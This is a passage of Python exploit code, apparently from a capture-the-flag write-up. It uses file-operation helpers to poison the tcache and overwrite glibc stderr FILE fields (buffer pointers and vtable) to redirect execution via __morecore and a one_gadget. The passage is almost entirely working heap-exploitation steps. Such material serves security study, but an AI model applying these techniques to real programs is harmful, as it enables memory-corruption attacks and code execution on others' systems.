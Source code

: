 ```python  
     rm("./test4/5")  
     cd("./test4")  
     echo("5",p64(0x7fffffffffffffff))  
     cd("../test5")  
     echo("5","\r"*stderrwriteptr_s)  
     cd("../")  
     print("[4/5] overwrite FILE of stderr")

     # stderr_IO_buf_base / offset of default_morecore_onegadget  
     off_default_morecore_one = 0x4becb  
     rm("./test4/6")  
     cd("./test4")  
     echo("6",p64(off_default_morecore_one))  
     cd("../test5")  
     echo("6","\r"*stderrbufbase_s)  
     cd("../")  
     print("[5/5] overwrite FILE of stderr")

     # Transplant __morecore value to stderr->file._IO_buf_end ########  
     cd("../")  
     rm("./test2/2")  
     rm("./test2/3")                   # connect to tcache  
     cd("test2")  
     echo("2",p8(LSB_A1))  
     cd("../test6")  
     echo("3","\r"*stderrbufend_s)  
     cd("../test2")  
     echo("6",p64(0)+p64(0x10 + morecore_s|1))  
     cd("../")  
     rm("./test2/2")  
     cd("./test2/")  
     echo("6",p64(0)+p64(0x10 + stderrbufend_s|1))  
     cd("../test6")  
     echo("4","\r"*stderrbufend_s)

     cd("../test2")  
     echo("6",p64(0)+p64(0x10 + morecore_s|1))  
     cd("../test6")  
     echo("5","\r"*morecore_s)  
     print("[+]overwrite stderr->file.IO_buf_end")

     # Partial Transplantation: stderr->file.vtable into _IO_str_jumps

     cd("../")  
     rm("./test4/7")  
     cd("./test4")  
     echo("7",p16(LSB_IO_str_jmps - 0x20))            # 0-bit uncertainity after success of unsortedbin attack (before, 4bit)  
     cd("../test6")  
     echo("6","\r"*stderrvtable_s)  
     print("[+] overwrite stderr's vtable into _IO_str_jumps - 0x20")

     # Tamper in Flight: Transplant __morecore's value to _s._allocate_buffer ###########  
     cd("../")  
     rm("./test3/3")  
     rm("./test3/2")                   # connect to tcache  
     cd("test3")  
     echo("2",p8(LSB_A2))  
     cd("../test6")  
     echo("7","\r"*stderralloc_s)  
     cd("../test3")

     echo("6",p64(0)+p64(0x10 + morecore_s|1))  
```